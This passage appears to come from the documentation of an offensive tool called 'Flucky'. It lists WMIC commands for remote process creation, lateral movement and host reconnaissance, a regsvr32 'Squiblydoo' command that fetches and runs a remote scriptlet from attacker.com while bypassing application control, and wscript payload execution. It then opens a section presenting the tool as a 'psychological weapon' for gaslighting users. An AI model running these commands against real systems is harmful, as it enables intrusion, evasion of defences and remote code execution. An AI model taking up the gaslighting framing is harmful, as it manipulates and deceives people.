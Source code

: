 **WMIC Operations:**
```bash
# Create process remotely (lateral movement)
LOLBAS_WMIC /node:192.168.1.100 process call create "cmd.exe /c whoami > C:\\output.txt"

# List all processes
LOLBAS_WMIC process get name,processid,commandline

# System information gathering
LOLBAS_WMIC computersystem get name,username,domain,totalphysicalmemory
```

#### `LOLBAS_REGSVR32 <param>`
**Description:** Execute scripts via `regsvr32.exe`  
**Usage:** `LOLBAS_REGSVR32 /s /n /u /i:http://example.com/script.sct scrobj.dll`  
**Technique:** Squiblydoo attack variant
- Executes remote scripts
- Bypasses application control
- Appears as legitimate system activity

**Script Execution:**
```bash
# Execute remote scriptlet
LOLBAS_REGSVR32 /s /n /u /i:http://attacker.com/payload.sct scrobj.dll

# Local scriptlet execution
LOLBAS_REGSVR32 /s /u /i:payload.sct scrobj.dll
```

#### `LOLBAS_WSCRIPT <param>`
**Description:** Execute VBScript/JScript via `wscript.exe`  
**Usage:** `LOLBAS_WSCRIPT //e:vbscript C:\\script.vbs`  
**Use Cases:**
- Legacy script execution
- COM object manipulation
- File system operations

**Script Examples:**
```bash
# Execute VBScript file
LOLBAS_WSCRIPT //e:vbscript C:\\payload.vbs

# Execute JScript
LOLBAS_WSCRIPT //e:jscript C:\\payload.js
```

## 🧠 Gaslighting - Psychological Operations

### The Art of Psychological Influence

Gaslighting transforms Flucky from a technical tool into a psychological weapon. Make users question their reality, test security awareness, and create realistic training scenarios.
